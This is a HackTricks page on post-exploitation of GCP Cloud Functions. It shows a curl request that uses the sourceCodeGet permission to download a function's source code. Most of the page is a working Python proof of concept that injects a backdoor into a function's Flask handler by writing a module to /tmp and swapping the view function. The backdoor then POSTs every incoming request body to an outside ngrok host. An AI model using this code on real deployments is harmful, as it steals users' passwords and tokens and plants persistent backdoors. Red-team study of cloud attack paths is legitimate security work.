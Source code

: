 # GCP - Cloud Functions Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Functions

Find some information about Cloud Functions in:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.sourceCodeGet`

With this permission you can get a **signed URL to be able to download the source code** of the Cloud Function:

{% code overflow="wrap" %}
```bash
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions/{function-name}:generateDownloadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

### Steal Cloud Function Requests

If the Cloud Function is managing sensitive information that users are sending (e.g. passwords or tokens), with enough privileges you could **modify the source code of the function and exfiltrate** this information.

Moreover, Cloud Functions running in python use **flask** to expose the web server, if you somehow find a code injection vulnerability inside the flaks process (a SSTI vulnerability for example), it's possible to **override the function handler** that is going to receive the HTTP requests for a **malicious function** that can **exfiltrate the request** before passing it to the legit handler.

For example this code implements the attack:

```python
import functions_framework


# Some python handler code
@functions_framework.http
def hello_http(request, last=False, error=""):
    """HTTP Cloud Function.
    Args:
        request (flask.Request): The request object.
        <https://flask.palletsprojects.com/en/1.1.x/api/#incoming-request-data>
    Returns:
        The response text, or any set of values that can be turned into a
        Response object using `make_response`
        <https://flask.palletsprojects.com/en/1.1.x/api/#flask.make_response>.
    """

    if not last:
        return injection()
    else:
        if error:
            return error
        else:
            return "Hello World!"



# Attacker code to inject
# Code based on the one from https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py

new_function = """
def exfiltrate(request):
    try:
        from urllib import request as urllib_request
        req = urllib_request.Request("https://8b01-81-33-67-85.ngrok-free.app", data=bytes(str(request._get_current_object().get_data()), "utf-8"), method="POST")
        urllib_request.urlopen(req, timeout=0.1)
    except Exception as e:
        if not "read operation timed out" in str(e):
            return str(e)
    
    return ""

def new_http_view_func_wrapper(function, request):
    def view_func(path):
        try:
            error = exfiltrate(request)
            return function(request._get_current_object(), last=True, error=error)
        except Exception as e:
            return str(e)
    
    return view_func
"""

def injection():
    global new_function
    try:
        from flask import current_app as app
        import flask
        import os
        import importlib
        import sys        

        if os.access('/tmp', os.W_OK):
            new_function_path = "/tmp/function.py"
            with open(new_function_path, "w") as f:
                f.write(new_function)
            os.chmod(new_function_path, 0o777)
        
        if not os.path.exists('/tmp/function.py'):
            return "/tmp/function.py doesn't exists"

        # Get relevant function names
        handler_fname = os.environ.get("FUNCTION_TARGET") # Cloud Function env variable indicating the name of the function to habdle requests
        source_path = os.environ.get("FUNCTION_SOURCE", "./main.py") # Path to the source file of the Cloud Function (./main.py by default)
        realpath = os.path.realpath(source_path) # Get full path

        # Get the modules representations
        spec_handler = importlib.util.spec_from_file_location("main_handler", realpath)
        module_handler = importlib.util.module_from_spec(spec_handler)

        spec_backdoor = importlib.util.spec_from_file_location('backdoor', '/tmp/function.py')
        module_backdoor = importlib.util.module_from_spec(spec_backdoor)

        # Load the modules inside the app context
        with app.app_context():
            spec_handler.loader.exec_module(module_handler)
            spec_backdoor.loader.exec_module(module_backdoor)

        # make the cloud funtion use as handler the new function 
        prev_handler = getattr(module_handler, handler_fname)
        new_func_wrap = getattr(module_backdoor, 'new_http_view_func_wrapper')
        app.view_functions["run"] = new_func_wrap(prev_handler, flask.request)
        return "Injection completed!"
    
    except Exception as e:
        return str(e)
```

